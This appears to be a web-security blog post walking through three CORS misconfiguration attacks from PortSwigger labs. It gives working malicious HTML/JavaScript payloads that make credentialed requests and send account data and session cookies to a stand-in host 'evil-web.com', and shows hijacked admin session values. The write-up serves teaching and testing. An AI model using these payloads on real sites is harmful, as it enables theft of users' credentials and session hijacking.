 ```yaml
---
layout: post
title:  "Insecure CORS Policy"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/170120828-3edcc859-fc45-42c3-9fe7-a8cd8b20f682.png
beforetoc: ""
toc: false
tags: [ Web, Web Security, Payloads ]
---
```

- Cross-Origin Resource Sharing (CORS) is a browser mechanism that allows controlled access to resources outside a given domain.
- It extends and adds flexibility to the same-origin policy (SOP).
- However, it also offers the potential for cross-domain attacks if a website's CORS policy is poorly configured and implemented.

# Table of Contents
1. [CORS with Origin base mirrored](#CORSvulnOriginmirrored)
2. [Origin only allows null origins](#Originallowsnullorigins)
3. [CORS with insecure reliable protocols](#CORSinsecurereliableprotocols)

---
#### 1- CORS vuln with Origin base mirrored <a name="CORSvulnOriginmirrored"></a>
We can see the result of the data in the response. 

![CORSBASIC1](https://user-images.githubusercontent.com/47476901/170133516-05d66e42-aae7-425d-a359-590e27bab824.png)

And the customized origin is reflected, which tells us that it is vulnerable.

`Origin: http://web-testing.com` ✔

![CORSBASIC2](https://user-images.githubusercontent.com/47476901/170130161-41f34362-0e9b-41f3-a551-84ec272c8ea0.png)

We create a custom html so that this data is sent to our malicious page to steal this data.

![CORSBASIC-webmaliciosa](https://user-images.githubusercontent.com/47476901/170120906-757459e0-d8c5-46dc-afab-980136ef0bbe.png)


- Malicious web HTML: 

```html
<html>
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://web.com/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {
	location='https://evil-web.com/log?key='+this.responseText;
};
</script>
</html>
```

When the user visits our site it will send the data from that endpoint to our site where it can be seen in the logs of our server.

![CORSBASIC-LOGS](https://user-images.githubusercontent.com/47476901/170130571-b84a03fb-03d3-45ae-ac51-9d6232ff2a33.png)

---

#### 2- Origin only allows null origins <a name="Originallowsnullorigins"></a>
When we modify the Origin it is not reflected in the request.

`Origin: http://web-testing.com` ❌

![CORS-NULL-nullisnotreflected](https://user-images.githubusercontent.com/47476901/170138954-83fb9cda-5285-4061-a8f0-b62b1b7b44ff.png)

We can see that the website only allows Origins that are null.

`Origin: null` ✔

![CORS-NULL-nullisreflected](https://user-images.githubusercontent.com/47476901/170138804-60f28985-7eda-48de-8ef9-c112cabd66d6.png)


- An attacker can use several tricks to generate a cross-origin request containing the `NULL` value in the Origin header.
- This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using an `iframe` cross-origin request in isolated form space:

- Malicious HTML web: 

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener; 
        req.open('get','https://web.com/accountDetails',true); 
        req.withCredentials = true;
        req.send();
		function reqListener() {
		location='https://evil-web.com/log?key='+this.responseText; }; 
    </script>
">
</iframe>
```
With the `location` we are indicating that this response that has the sensitive data is sent as parameters to the attacker's page.
This is the request that the victim user makes from behind when visiting our page.

1- Visit the attacker page and execute the javascript script we have created.

![CORS-NULL-1](https://user-images.githubusercontent.com/47476901/170137775-751b38de-66ea-4e9d-b25b-4270dff06ca3.png)


2- When it reads the location it sends the data

![CORS-NULL-2](https://user-images.githubusercontent.com/47476901/170121090-d15e2f6c-c45e-4e17-888e-f4b58605e167.png)

3- When the user visits our page it will send the data of that endpoint to our page where it can be seen in the logs of our server.
Server logs:

![CORS-NULL-3](https://user-images.githubusercontent.com/47476901/170134706-1013416d-639c-456e-8f71-fce0e65e0744.png)


Url Decode: 
We have:
User, email, apikey and the session (The cookie that is linked to the user).

![CORS-NULL-urldecode](https://user-images.githubusercontent.com/47476901/170134233-30ef7f41-ec13-415a-beeb-40ac5edbaf71.png)

**Filtering administrator data**

Now imagine that the administrator visits our page, we get his data and in that data is included the session cookie that we can use to enter your session
Server logs: 

![CORS-NULL-admin1](https://user-images.githubusercontent.com/47476901/170134825-d9b51872-9f82-49e6-99e1-b5514ab295f8.png)

Url Decode: 

![CORS-NULL-admin2](https://user-images.githubusercontent.com/47476901/170121205-6b456e81-74be-4d67-8422-cde3949111f7.png)

We already have the administrator session

`Admin Session: F1BVIVSoQvTaB8i6HJ25gxtJdvJKweuz`

![CORS-NULL-admin3](https://user-images.githubusercontent.com/47476901/170131836-e1b19346-e368-4f66-b6c3-67a6d13005bc.png)


#### 3- CORS with insecure reliable protocols <a name="CORSinsecurereliableprotocols"></a>

The website only trusts domains that belong to it, i.e. its subdomains.

We do a test with our site in the origin and we get no reflection.

`Origin: http://web-testing.com` ❌

![CORS-SUBDOMAIN1](https://user-images.githubusercontent.com/47476901/170138565-28a77954-350d-4730-bf5a-14b47debfcb9.png)

We tried with a subdomain and it is reflected.

`Origin: http://subdomain.web.com` ✔

![CORS-SUBDOMAIN2](https://user-images.githubusercontent.com/47476901/170134037-257d9b15-b86c-43a4-884c-4ae98a1333a1.png)


We found a valid subdomain

![CORS-SUBDOMAIN3](https://user-images.githubusercontent.com/47476901/170121326-6bf2936e-ecee-4043-b83d-64473fe62467.png)

This subdomain is vulnerable to XSS reflected in the productId parameters, this will help us to execute our script since the page only trusts its subdomains.

**XSS in subdomain**

![CORS-SUBDOMAIN-XSS](https://user-images.githubusercontent.com/47476901/170121381-2735c975-9520-407e-a8b7-626497e0f292.png)

We exploit this vulnerability to exploit cross-domain trust to exfiltrate data to our server.

**Our malicious web**
- HTML malicious web: 

```html
<html>
<script>
document.location="http://subdomain.web.com/?search=<script>var req = new XMLHttpRequest(); req.onload = reqListener;req.open('get','https://web.com/accountDetails',true);req.withCredentials = true;req.send();function reqListener() {location='https://evil-web.com/log?key='%2b%this.responseText; };%3c/script>"
</script>
</html>
```

When the victim user visits our page he will execute the XSS of the subdomain containing the script that makes a request to the page vulnerable to cors by domain trust and the response of that request is sent to the logs of our server.

1- The user visits our malicious page which contains the main script

![CORS-SUBDOMAIN-FINAL1](https://user-images.githubusercontent.com/47476901/170137871-5a4914d8-0ba0-48a7-9b83-67ca6312bd11.png)

2- The javascript is executed and sends the user to the subdomain and executes xss 

![CORS-SUBDOMAIN-FINAL2](https://user-images.githubusercontent.com/47476901/170138239-bf2dfdf4-9c8b-4f7b-a47a-81aa0a0959aa.png)

3- As the script comes from a trusted domain configured by the cors of the final page, it is executed on the page vulnerable to CORS.

![CORS-SUBDOMAIN-FINAL3](https://user-images.githubusercontent.com/47476901/170138424-4ce4f7e3-1694-4b41-b7fc-f0da7741166d.png)

4- As it was malicious, the response was sent to the attacker's server with all the sensitive data.
Finally the data is sent to the malicious page as we can see with this intercepted request.

![CORS-SUBDOMAIN-FINAL4](https://user-images.githubusercontent.com/47476901/170129209-b81714b9-f65d-49e0-9f39-6eba73ec5fba.png)

5- These data are saved in the logs of our page as an attacker.
In which in this case are sent username, email, apikey and session cookie. 

![CORS-SUBDOMAIN-FINAL5](https://user-images.githubusercontent.com/47476901/170136436-fa4814e9-91a4-49d3-8ddd-41df7230c0d0.png)


6- In the most extreme case as we have explained before, if an administrator visits our page we will have his session cookie.

![CORS-SUBDOMAIN-FINAL6](https://user-images.githubusercontent.com/47476901/170136520-229b7aeb-10d7-4d00-a586-0982f23677ce.png)


7- Using the administrator's session cookie

`Admin Session: clljARot4Lc4KkFHfIylENGZmZbzYwD7`

![CORS-SUBDOMAIN-FINAL7](https://user-images.githubusercontent.com/47476901/170133118-797300b9-4428-467c-a961-80087da6f186.png)


### Conclusion
- This always depends on the response to the endpoint that we point.
- In this example the user's session cookie or email was sent, but this is a particular case because the webs are very different from each other, as the above point says, it all depends on the response of the endpoint. 
- Understand what trust relationships are handled in CORS policies because there may be a CORS vulnerability but it does not have to be offensive. Like everything else, it depends on the context.

- Source Labs: [Portswigger Labs](https://portswigger.net/web-security)
- Credits Image: [Portswigger](https://portswigger.net/web-security)
